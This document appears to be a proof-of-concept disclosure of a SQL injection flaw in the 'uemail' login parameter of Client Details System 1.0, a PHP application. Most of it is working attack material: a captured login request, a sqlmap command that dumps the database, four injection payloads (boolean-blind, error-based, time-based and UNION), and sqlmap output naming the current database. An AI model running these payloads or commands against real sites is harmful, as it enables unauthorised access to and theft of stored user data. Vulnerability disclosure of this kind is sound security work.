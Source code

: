 # Client_Details_System-SQL_Injection_1
+ **Exploit Title:** Client_Details_System-SQL_Injection_1
+ **Date:** 2023-26-12
+ **Exploit Author:** Hamdi Sevben
+ **Vendor Homepage:** https://code-projects.org/client-details-system-in-php-with-source-code/
+ **Software Link:** https://download-media.code-projects.org/2020/01/CLIENT_DETAILS_SYSTEM_IN_PHP_WITH_SOURCE_CODE.zip
+ **Version:** 1.0
+ **Tested on:** Windows 10 Pro + PHP 8.1.6, Apache 2.4.53
+ **CVE:** CVE-

## References: 

## Description:
Client Details System 1.0 allows SQL Injection via parameter 'uemail' in "/clientdetails/". Exploiting this issue could allow an attacker to compromise the application, access or modify data,  or exploit latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to the User Login page: "http://localhost/clientdetails/"
+ Fill email and password.
+ Intercept the request via Burp Suite and send to Repeater.
+ Copy and paste the request to a "r.txt" file.
+ Captured Burp request:
```
POST /clientdetails/ HTTP/1.1
Host: localhost
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: en-us,en;q=0.5
Cache-Control: no-cache
Content-Length: 317
Content-Type: application/x-www-form-urlencoded
Referer: http://localhost/clientdetails/
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36

uemail=user@mail.com&login=LOG+IN&password=P@ass123
```

+ Use sqlmap to exploit. In sqlmap, use 'uemail' parameter to dump the database. 
```
python sqlmap.py -r r.txt -p uemail --risk 3 --level 5 --threads 1 --random-agent tamper=between,randomcase --proxy="http://127.0.0.1:8080" --dbms mysql --batch --current-db
```

```
---
Parameter: uemail (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT)
    Payload: uemail=user@mail.com' OR NOT 6660=6660-- FlRf&login=LOG IN&password=P@ass123

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: uemail=user@mail.com' AND (SELECT 6854 FROM(SELECT COUNT(*),CONCAT(0x717a717a71,(SELECT (ELT(6854=6854,1))),0x7176627871,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- Oxlo&login=LOG IN&password=P@ass123

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: uemail=user@mail.com' AND (SELECT 5335 FROM (SELECT(SLEEP(5)))qsPA)-- pwtE&login=LOG IN&password=P@ass123

    Type: UNION query
    Title: Generic UNION query (NULL) - 7 columns
    Payload: uemail=user@mail.com' UNION ALL SELECT NULL,CONCAT(0x717a717a71,0x45575259495444506f48756469467471555975554d6f794d77677a4f50547145735052567278434f,0x7176627871),NULL,NULL,NULL,NULL,NULL-- -&login=LOG IN&password=P@ass123
---
[14:58:11] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.4.53, PHP, PHP 8.1.6
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[14:58:11] [INFO] fetching current database
current database: 'loginsystem'
```

+ current database: `loginsystem`
![1](https://github.com/h4md153v63n/CVEs/assets/5091265/bfbec122-5b56-42df-beda-41dfdcaf527a)
